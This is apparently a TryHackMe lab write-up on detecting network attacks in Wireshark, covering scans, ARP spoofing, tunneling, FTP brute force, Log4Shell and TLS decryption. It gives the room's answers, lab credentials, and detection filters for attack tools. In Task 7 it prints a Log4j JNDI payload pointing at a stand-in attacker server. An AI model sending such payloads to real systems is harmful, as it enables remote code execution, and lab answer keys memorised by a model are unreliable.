*Write-up by [Miyu7x](https://github.com/Miyu7x) | TryHackMe: [Miyu7](https://tryhackme.com/p/Miyu7)*

---

## Task 1 – Introduction

### Key Concepts

Deep Packet Analysis provides the big picture of network traffic by surfacing anomalies and malicious activities hiding within individual packets. Wireshark is the primary tool used in this room to perform that analysis across multiple protocols and attack types.

### Task Questions

**1. Read the task above.**

- **Answer:**

---

## Task 2 – Nmap Scans

### Key Concepts

Nmap is a network mapper used to identify live hosts and discover services. The three most common scan types are TCP Connect, SYN, and UDP. Each leaves a distinct fingerprint in packet captures.

**TCP Connect Scan**
- Completes the full 3-way handshake
- Window size is typically greater than 1024 bytes
- Requires no special privileges

| Open TCP Port | Closed TCP Port |
|---------------|-----------------|
| SYN > | SYN > |
| < SYN, ACK | < RST, ACK |
| ACK > | |
| RST, ACK > | |

**SYN Scan (Half-open)**
- Sends SYN, receives SYN-ACK, then immediately sends RST instead of completing the handshake
- Called "stealthy" because the connection is never fully established
- Window size is <= 1024 bytes
- Requires root privileges

**UDP Scan**
- No handshake involved
- Open ports produce no response (or application-specific data)
- Closed ports return ICMP Type 3 Code 3 (port unreachable)
- Encapsulated data inside ICMP errors can reveal what was sent

### Scan Type Comparison

| Scan Type | Nmap Flag | Privilege | Handshake | Window Size | Open Port Response | Closed Port Response |
|-----------|-----------|-----------|-----------|-------------|-------------------|----------------------|
| TCP Connect | -sT | Non-root | Full 3-way | > 1024 | SYN > SYN-ACK > ACK | SYN > SYN-ACK > ACK > RST-ACK |
| SYN | -sS | Root | Half-open | <= 1024 | SYN > SYN-ACK > RST | SYN > RST-ACK |
| UDP | -sU | Root | None | N/A | No response | ICMP Type 3 Code 3 |

### TCP Flag Filters

| Flag Combination | Exact Filter | Flexible Filter |
|------------------|-------------|-----------------|
| SYN only | tcp.flags == 2 | tcp.flags.syn == 1 |
| ACK only | tcp.flags == 16 | tcp.flags.ack == 1 |
| SYN + ACK | tcp.flags == 18 | (tcp.flags.syn == 1) and (tcp.flags.ack == 1) |
| RST only | tcp.flags == 4 | tcp.flags.reset == 1 |
| RST + ACK | tcp.flags == 20 | (tcp.flags.reset == 1) and (tcp.flags.ack == 1) |
| FIN only | tcp.flags == 1 | tcp.flags.fin == 1 |

### Scan Detection Filters

| Scan Type | Wireshark Filter |
|-----------|-----------------|
| TCP Connect scan | tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size > 1024 |
| SYN scan | tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size <= 1024 |
| UDP closed port | icmp.type==3 and icmp.code==3 |
| All TCP | tcp |
| All UDP | udp |

### Task Questions

**1. What is the total number of the "TCP Connect" scans?**

- **Answer: 1000**

**2. Which scan type is used to scan the TCP port 80?**

- **Answer: TCP Connect**

**3. How many "UDP close port" messages are there?**

- **Answer: 1083**

**4. Which UDP port in the 55-70 port range is open?**



- **Answer: 68**

---

## Task 3 – ARP Poisoning & Man In The Middle

### Key Concepts

ARP (Address Resolution Protocol) lets devices identify themselves on a network by resolving IP addresses to MAC addresses. It is not a routable protocol and has no authentication mechanism, making it trivially easy to abuse.

**ARP Poisoning / MITM**
- An attacker sends crafted ARP replies claiming their MAC corresponds to a legitimate IP (usually the gateway)
- Victims update their ARP cache with the attacker's MAC
- All traffic intended for the gateway routes through the attacker instead
- Wireshark will flag duplicate IP announcements from different MACs as a warning

**Red flags in ARP traffic:**
- Two different MACs claiming the same IP address
- A single MAC address sending ARP replies for many different IPs
- High volume of ARP requests from one source (ARP scanning)

### ARP Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Global ARP search | arp |
| ARP requests (opcode 1) | arp.opcode == 1 |
| ARP replies (opcode 2) | arp.opcode == 2 |
| ARP scanning detection | arp.dst.hw_mac==00:00:00:00:00:00 |
| Duplicate address / poisoning | arp.duplicate-address-detected or arp.duplicate-address-frame |
| ARP flooding from specific MAC | ((arp) && (arp.opcode == 1)) && (arp.src.hw_mac == target-mac-address) |
| ARP requests from specific IP | arp.src.proto_ipv4 == x.x.x.x |

### IP to MAC Mapping Table

| Role | MAC Address | IP Address |
|------|-------------|------------|
| Attacker | | |
| Gateway | | |
| Victim | | |

### Detection Notes

| Finding | Indicator |
|---------|-----------|
| Possible ARP scanning | Single MAC broadcasting ARP requests across the IP range |
| Possible ARP spoofing | Two MACs claiming the same IP address |
| MITM confirmed | HTTP traffic from victim hosts routed through attacker MAC |

### Task Questions

**1. What is the number of ARP requests crafted by the attacker?**

- **Answer: 284**

**2. What is the number of HTTP packets received by the attacker?**

- **Answer: 90**

**3. What is the number of sniffed username & password entries?**

- **Answer: 6**

**4. What is the password of the "Client986"?**

- **Answer: clientnothere!**

**5. What is the comment provided by the "Client354"?**

- **Answer: Nice Work!**

---

## Task 4 – Identifying Hosts: DHCP, NetBIOS and Kerberos

### Key Concepts

Identifying hosts is the starting point of any network investigation. Three protocols are particularly useful for mapping hosts to usernames and device names.

**DHCP (Dynamic Host Configuration Protocol)**
- Automatically assigns IP addresses to devices on a network
- DHCP requests and ACKs contain hostname, MAC address, requested IP, and domain name
- Option 12 = hostname, Option 50 = requested IP, Option 61 = client MAC, Option 15 = domain name

**NetBIOS (Network Basic Input/Output System)**
- Allows applications on separate machines to communicate over LAN
- NBNS (NetBIOS Name Service) registration packets reveal workstation names

**Kerberos**
- Authentication protocol based on tickets
- Allows nodes to prove identity over a non-secure network
- CNameString field contains either a username (no $) or a hostname (ends with $)

### DHCP Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Global DHCP search | dhcp or bootp |
| DHCP Request | dhcp.option.dhcp == 3 |
| DHCP ACK | dhcp.option.dhcp == 5 |
| DHCP NAK | dhcp.option.dhcp == 6 |
| Search by hostname | dhcp.option.hostname contains "keyword" |
| Search by requested IP | dhcp.option.requested_ip_address == x.x.x.x |
| Search by domain name | dhcp.option.domain_name contains "keyword" |

### DHCP Options Reference

| Option | Packet Type | Contains |
|--------|------------|---------|
| 12 | Request | Hostname |
| 50 | Request | Requested IP address |
| 51 | Request / ACK | IP lease time |
| 61 | Request | Client MAC address |
| 15 | ACK | Domain name |
| 56 | NAK | Rejection reason message |

### NBNS Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Global NBNS search | nbns |
| Search by name | nbns.name contains "keyword" |

### Kerberos Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Global Kerberos search | kerberos |
| Filter by username | kerberos.CNameString contains "keyword" |
| Exact username match | kerberos.CNameString == "username" |
| Usernames only (exclude hostnames) | kerberos.CNameString and !(kerberos.CNameString contains "$") |
| Hostnames only | kerberos.CNameString and (kerberos.CNameString contains "$") |
| Protocol version | kerberos.pvno == 5 |
| Domain/realm search | kerberos.realm contains ".org" |
| Service name | kerberos.SNameString == "krbtgt" |

### Kerberos Fields Reference

| Field | Contains |
|-------|---------|
| CNameString | Username or hostname (hostnames end with $) |
| pvno | Protocol version number |
| realm | Domain name for the generated ticket |
| sname | Service and domain name for the generated ticket |
| addresses | Client IP and NetBIOS name (request packets only) |

### Task Questions

**1. What is the MAC address of the host "Galaxy A30"?**

- **Answer: 9a:81:41:cb:96:6c**

**2. How many NetBIOS registration requests does the "LIVALJM" workstation have?**

- **Answer: 16**

**3. Which host requested the IP address "172.16.13.85"?**

- **Answer: Galaxy-A12**

**4. What is the IP address of the user "u5"? (Enter the address in defanged format.)**

- **Answer: 10[.]1[.]12[.]2**

**5. What is the hostname of the available host in the Kerberos packets?**

- **Answer: xp1$**

---

## Task 5 – Tunneling Traffic: DNS and ICMP

### Key Concepts

**ICMP (Internet Control Message Protocol)**
- Designed for diagnosing and reporting network communication issues
- Trusted at the network layer, which means it often bypasses security perimeter controls
- Attackers exploit this trust to tunnel C2 traffic or exfiltrate data by embedding payloads inside ICMP echo packets
- Normal ICMP echo packets have a payload of 64 bytes or less
- Anomalous packet sizes (data.len > 64) are the primary tunneling indicator
- Can also be used for DoS attacks

**DNS (Domain Name System)**
- The "phonebook" of the internet: resolves domain names to IP addresses
- Attackers abuse DNS by encoding data or C2 commands in subdomain labels (e.g., encoded-commands.maliciousdomain.com)
- Indicators: unusually long query names, high query volume to a single domain, encoded strings in subdomains
- The dnscat tool is a known DNS tunneling framework and leaves identifiable strings in traffic

**Common exfiltration protocols:** SSH, FTP, TCP, HTTP, DNS

### ICMP Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Global ICMP search | icmp |
| Tunneling indicator (oversized payload) | data.len > 64 and icmp |
| Destination unreachable | icmp.type == 3 |
| Port unreachable (UDP closed) | icmp.type==3 and icmp.code==3 |
| Echo request | icmp.type == 8 |
| Echo reply | icmp.type == 0 |

### DNS Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Global DNS search | dns |
| Known dnscat tool | dns contains "dnscat" |
| Long subdomain queries (encoding indicator) | dns.qry.name.len > 15 and !mdns |
| Exclude local link queries | !mdns |
| DNS query type A | dns.qry.type == 1 |
| DNS response | dns.flags.response == 1 |

### Tunneling Indicators Comparison

| Protocol | Normal Behavior | Tunneling Indicator |
|----------|----------------|---------------------|
| ICMP | 64-byte payload, echo request/reply pairs | data.len > 64, encoded data in payload field |
| DNS | Short queries, standard domain format | Long subdomains, encoded strings, high query volume to one domain |

### Task Questions

**1. Use the "Desktop/exercise-pcaps/dns-icmp/icmp-tunnel.pcap" file. Investigate the anomalous packets. Which protocol is used in ICMP tunnelling?**

- **Answer: SSH**

**2. Use the "Desktop/exercise-pcaps/dns-icmp/dns.pcap" file. Investigate the anomalous packets. What is the suspicious main domain address that receives anomalous DNS queries? (Enter the address in defanged format.)**

- **Answer: dataexfil[.]com**

---

## Task 6 – Cleartext Protocol Analysis: FTP

### Key Concepts

FTP (File Transfer Protocol) transmits data in cleartext, including credentials. This makes it a prime target for sniffing and a reliable source of investigation artifacts in a pcap.

FTP response codes follow a structured numbering system:
- **1xx** = Positive preliminary reply
- **2xx** = Positive completion reply (connection and login success)
- **3xx** = Positive intermediate (more info needed, e.g., password after username)
- **4xx / 5xx** = Negative reply (failed attempts, invalid credentials)

Code 530 (no login, invalid password) is the key brute-force signal. A high count of 530s from the same source is a reliable brute-force indicator. Code 331 (valid username, need password) reveals that username enumeration succeeded.

### FTP Response Code Reference

| Code | Series | Meaning |
|------|--------|---------|
| 211 | x1x | System status |
| 212 | x1x | Directory status |
| 213 | x1x | File status (includes file size) |
| 220 | x2x | Service ready |
| 227 | x2x | Entering passive mode |
| 228 | x2x | Long passive mode |
| 229 | x2x | Extended passive mode |
| 230 | x3x | User login successful |
| 231 | x3x | User logout |
| 331 | x3x | Valid username, need password |
| 430 | x3x | Invalid username or password |
| 530 | x3x | No login, invalid password |

### FTP Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Global FTP search | ftp |
| Successful logins | ftp.response.code == 230 |
| Valid username (need password) | ftp.response.code == 331 |
| Failed login attempts | ftp.response.code == 530 |
| Invalid user or pass | ftp.response.code == 430 |
| System status | ftp.response.code == 211 |
| File status / size | ftp.response.code == 213 |
| Passive mode | ftp.response.code == 227 |
| Filter by username | ftp.request.command == "USER" |
| Filter by password | ftp.request.command == "PASS" |
| Filter by specific password arg | ftp.request.arg == "password" |
| Current working directory | ftp.request.command == "CWD" |
| List directory | ftp.request.command == "LIST" |
| Search for specific command string | ftp contains "CHMOD" |

### Task Questions

**1. How many incorrect login attempts are there?**

- **Answer: 737**

**2. What is the size of the file accessed by the "ftp" account?**

- **Answer: 39424**

**3. The adversary uploaded a document to the FTP server. What is the filename?**

- **Answer: resume.doc**

**4. The adversary tried to assign special flags to change the executing permissions of the uploaded file. What is the command used by the adversary?**

- **Answer: CHMOD 777**

---

## Task 7 – Cleartext Protocol Analysis: HTTP

### Key Concepts

HTTP (Hypertext Transfer Protocol) is the backbone of web traffic. It is unencrypted and not blocked at most network perimeters by default, which makes it a common vector for attacks and a rich source of investigation data.

**User Agent Analysis**
- The User-Agent header identifies the client software making the request
- Scanners and attack tools (Nmap, SQLMap, Wfuzz, Nikto) often leave their names in the User-Agent
- Sophisticated attackers modify User-Agent strings to blend in with normal browser traffic
- Subtle misspellings (e.g., "Mozlila" instead of "Mozilla") are a detection tell
- Base64 encoding characters ($, ==) in the User-Agent field can indicate exploit payloads

**Log4j / Log4Shell (CVE-2021-44228)**
- Critical RCE vulnerability in the Apache Log4j Java logging library
- Exploitation is triggered by sending a JNDI lookup string in any input field that gets logged
- Format: `${jndi:ldap://attacker-server/Exploit.class}`
- No legitimate traffic should contain `jndi:ldap` or `Exploit.class`
- Payloads are frequently Base64 encoded inside the User-Agent header

### HTTP Request and Response Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Global HTTP search | http |
| HTTP2 | http2 |
| All requests | http.request |
| GET requests | http.request.method == "GET" |
| POST requests | http.request.method == "POST" |
| Response 200 OK | http.response.code == 200 |
| Response 301 Moved Permanently | http.response.code == 301 |
| Response 302 Moved Temporarily | http.response.code == 302 |
| Response 400 Bad Request | http.response.code == 400 |
| Response 401 Unauthorized | http.response.code == 401 |
| Response 403 Forbidden | http.response.code == 403 |
| Response 404 Not Found | http.response.code == 404 |
| Response 405 Method Not Allowed | http.response.code == 405 |
| Response 408 Request Timeout | http.response.code == 408 |
| Response 500 Internal Server Error | http.response.code == 500 |
| Response 503 Service Unavailable | http.response.code == 503 |

### HTTP Parameter and User Agent Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| User agent field | http.user_agent |
| Nmap in user agent | http.user_agent contains "nmap" |
| SQLmap in user agent | http.user_agent contains "sqlmap" |
| Wfuzz in user agent | http.user_agent contains "Wfuzz" |
| Nikto in user agent | http.user_agent contains "Nikto" |
| All scanner tools combined | (http.user_agent contains "sqlmap") or (http.user_agent contains "Nmap") or (http.user_agent contains "Wfuzz") or (http.user_agent contains "Nikto") |
| URI contains admin | http.request.uri contains "admin" |
| Full URI contains admin | http.request.full_uri contains "admin" |
| Server type | http.server contains "apache" |
| Host search | http.host contains "keyword" |
| Exact host match | http.host == "keyword" |
| Keep-alive connections | http.connection == "Keep-Alive" |
| Cleartext data from server | data-text-lines contains "keyword" |

### Log4j Detection Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| Initial POST vector | http.request.method == "POST" |
| jndi string in IP layer | ip contains "jndi" |
| Exploit.class in frame | frame contains "Exploit" |
| Either indicator combined | (ip contains "jndi") or (ip contains "Exploit") |
| Base64 user agent ($) | http.user_agent contains "$" |
| Base64 user agent (==) | http.user_agent contains "==" |

### Task Questions

**1. Investigate the user agents. What is the number of anomalous "user-agent" types?**



- **Answer: 6**

**2. What is the packet number with a subtle spelling difference in the user agent field?**



- **Answer: 52**

**3. Locate the "Log4j" attack starting phase. What is the packet number?**



- **Answer: 444**

**4. Locate the "Log4j" attack starting phase and decode the base64 command. What is the IP address contacted by the adversary? (Enter the address in defanged format and exclude "{}")**





- **Answer: 62[.]210[.]130[.]250**

---

## Task 8 – Encrypted Protocol Analysis: Decrypting HTTPS

### Key Concepts

**Why HTTPS obscures traffic**
HTTPS wraps HTTP inside TLS (Transport Layer Security), encrypting the payload in transit. Without the session keys, all Wireshark shows is TLS handshake metadata and ciphertext. Spoofing, sniffing, and interception attacks are neutralized because there is nothing readable to intercept.

**TLS Handshake in Wireshark**
The handshake is always visible even in encrypted captures. Key steps:
1. Client Hello: client advertises supported TLS versions and cipher suites, initiates the session
2. Server Hello: server selects a cipher suite and responds with its certificate
3. Key Exchange and session keys are derived
4. Application data (encrypted) flows after the handshake

Client Hello packets reveal the destination server via the SNI (Server Name Indication) field, which is visible in cleartext even in encrypted traffic.

**Key Log Files**
- Modern browsers (Chrome, Firefox) can export TLS session keys via the `SSLKEYLOGFILE` environment variable
- These keys must be captured at the time of the session; they cannot be recovered afterward
- To load in Wireshark: right-click a TLS packet > Protocol Preferences > TLS > (Pre)-Master-Secret log filename, or Edit > Preferences > Protocols > TLS
- After loading the key log, Wireshark decrypts the traffic and HTTP2 packets become visible

**Post-Decryption Data Formats**

| Format | Contains |
|--------|---------|
| Frame | Raw packet data |
| Decrypted TLS | Decrypted session content |
| Decompressed Header | HTTP2 header details |
| Reassembled TCP | Full TCP stream |
| Reassembled SSL | Full SSL stream |

**SSDP note:** SSDP (Simple Service Discovery Protocol) packets appear in TLS hello filters if not excluded. Use `!(ssdp)` to clean up results.

### HTTPS and TLS Filters

| Purpose | Wireshark Filter |
|---------|-----------------|
| All HTTP requests | http.request |
| Global TLS search | tls |
| TLS Client Hello | tls.handshake.type == 1 |
| TLS Server Hello | tls.handshake.type == 2 |
| Client Hello (excluding SSDP) | (http.request or tls.handshake.type == 1) and !(ssdp) |
| Server Hello (excluding SSDP) | (http.request or tls.handshake.type == 2) and !(ssdp) |
| SSDP (to isolate or exclude) | ssdp |

### Task Questions

**1. What is the frame number of the "Client Hello" message sent to "accounts.google.com"?**



- **Answer: 16**

